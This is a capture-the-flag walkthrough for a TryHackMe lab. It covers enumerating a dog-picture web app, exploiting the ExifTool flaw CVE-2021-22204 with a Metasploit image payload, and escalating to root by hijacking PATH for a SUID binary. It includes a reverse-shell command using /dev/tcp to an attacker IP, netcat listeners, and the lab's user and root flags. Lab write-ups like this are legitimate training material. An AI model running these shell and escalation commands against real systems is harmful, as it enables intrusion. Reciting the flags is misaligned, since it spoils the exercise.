 ```yaml
---
description: https://tryhackme.com/room/dejavu
---
```


# Deja Vu

![](../../.gitbook/assets/10.10.126.107.png)

## Task 2 Dog Pictures - Exploring a webapp

```bash
nmap -n -Pn -sV -sC 10.10.126.107
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-16-25.png>)

#### Click around the website. Can you find any developer comments?

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-29-19.png>)

#### Can you find the page that gives more details about a dog photo?

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-32-16.png>)

#### Perform an Nmap scan of the target. What version of SSH is in use?

{% hint style="success" %}
`OpenSSH 8.0 (protocol 2.0)`
{% endhint %}

## Task 3 Vulnerability Discovery

#### What page can be used to upload your own dog picture?

```bash
gobuster dir -u http://10.10.126.107/ 
             -w /usr/share/dirb/wordlists/big.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-38-58.png>)

{% hint style="success" %}
`/upload/`
{% endhint %}

#### What API route is used to provide the Title and Caption for a specific dog image?

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-44-58.png>)

{% hint style="success" %}
`/dog/getmetadata`
{% endhint %}

#### What API route does the application use to retrieve further information about the dog picture?

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-42-17.png>)

{% hint style="success" %}
`/dog/getexifdata`
{% endhint %}

#### What attribute in the JSON response from this endpoint specifies the version of ExifTool being used by the webapp?

{% hint style="success" %}
`ExifToolVersion`
{% endhint %}

#### What version of ExifTool is in use?

{% hint style="success" %}
`12.23`
{% endhint %}

#### What RCE exploit is present in this version of ExifTool?

```bash
msfconsole
msf > search exiftool
msf > use 0
msf > info
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-54-21.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-13 09-56-22.png>)

{% hint style="success" %}
`CVE-2021-22204`
{% endhint %}

## Task 4 Exploitation

#### Generate an image payload with Metasploit

```bash
msf > setg LHOST 10.6.9.176
msf > run
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-05-39.png>)

```bash
exiftool /home/kali/.msf4/local/msf.jpg
cp /home/kali/.msf4/local/msf.jpg .
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-07-47.png>)

#### Get code execution on the target machine

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-10-51.png>)

```bash
nc -nvlp 4444
bash -i
cat /home/dogpics/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-21-22.png>)

#### Retrieve the flag located in /home/dogpics/user.txt. What is the user flag?

{% hint style="success" %}
`dejavu{735c0553063625f41879e57d5b4f3352}`
{% endhint %}

## Task 5 Privilege Escalation - Enumeration and PATH Exploitation

#### Stabilise your reverse shell to ensure that you can run interactive binaries

#### Find the SUID binary

```bash
ls -la
cat serverManager.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {   
    setuid(0);
    setgid(0);
    printf(
        "Welcome to the DogPics server manager Version 1.0\n"
        "Please enter a choice:\n");
    int operation = 0;
    printf(
        "0 -\tGet server status\n"
        "1 -\tRestart server\n");
    while (operation < 48 || operation > 49) {
        operation = getchar();
        getchar();
        if (operation < 48 || operation > 49) {
            printf("Invalid choice.\n");
        }
    }
    operation = operation - 48;
    //printf("Choice was:\t%d\n",operation);
    switch (operation) {
    case 0:
        //printf("0\n");
        system("systemctl status --no-pager dogpics");
        break;
    case 1:
        system("systemctl restart dogpics");
        break;
    default:
        break;
    }
}
```

#### Verify that the serverManager program runs systemctl when you run it.

```bash
systemctl status dogpics --no-pager
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-36-56.png>)

#### Create your fake systemctl, ensure it's correctly added to PATH, and escalate your privileges.

```bash
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' > systemctl
chmod +x systemctl
PATH=/home/dogpics:$PATH ./serverManager
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-41-18.png>)

#### Retrieve the root flag from /root/root.txt. What is the root flag?

```bash
nc -nvlp 4445
bash -i
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-13 10-41-02.png>)

{% hint style="success" %}
`dejavu{5ad931368bdc46f856febe4834ace627}`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.126.107.xmind" %}
